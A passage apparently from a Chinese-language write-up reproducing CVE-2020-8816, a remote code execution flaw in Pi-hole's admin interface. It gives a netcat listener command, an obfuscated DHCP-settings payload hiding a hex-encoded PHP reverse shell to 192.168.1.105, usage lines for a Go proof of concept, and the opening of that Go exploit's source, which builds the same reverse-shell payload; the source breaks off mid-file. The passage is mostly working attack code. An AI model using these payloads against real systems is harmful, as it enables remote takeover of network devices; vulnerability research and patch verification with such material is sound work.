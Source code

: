 在主机的命令行中输入：

    ncat -nlvp 2256

进入监听模式，等待其他机器的连接。

返回虚拟机，在浏览器中打开`http://192.168.1.107/admin`，登录，选择Setting-\>DHCP选项卡，输入payload：

    aaaaaaaaaaaa&&SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}&&B=${PWD#/???/???/}&&H=${B%???/?????}&&C=${PWD#/??}&&R=${C%/???/????/?????}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&

返回主机，可以看到主机收到了连接，可以执行命令了：![3.png](./resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId31.png)

### poc

> CVE-2020-8816.go

`go run CVE-2020-8816.go -host $LHOST -p $LPORT -pass admin -u http://www.0-sec.org/admin/`

`./CVE-2020-8816 -host $LHOST -p $LPORT -pass admin -u http://www.0-sec.org/admin/`

![4.png](./resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId33.png)

![5.png](./resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId34.png)

![6.png](./resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId35.png)

    package main


    import (
        "flag"
        "log"
        "strings"
        "github.com/anaskhan96/soup"
        "encoding/hex"
        "github.com/levigross/grequests"
    )

    type Options struct {
        url, password, host, port string
       
    }


    var HOST string
    var URL string
    var PORT string
    var PASSWD string

    func generate_shell() string{
        payload := "php -r '$sock=fsockopen(\"HOST\", PORT);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
        payload = strings.Replace(payload, "HOST", HOST, 1)
        payload = strings.Replace(payload, "PORT", PORT, 1)
        return hex.EncodeToString([]byte(payload))
    }
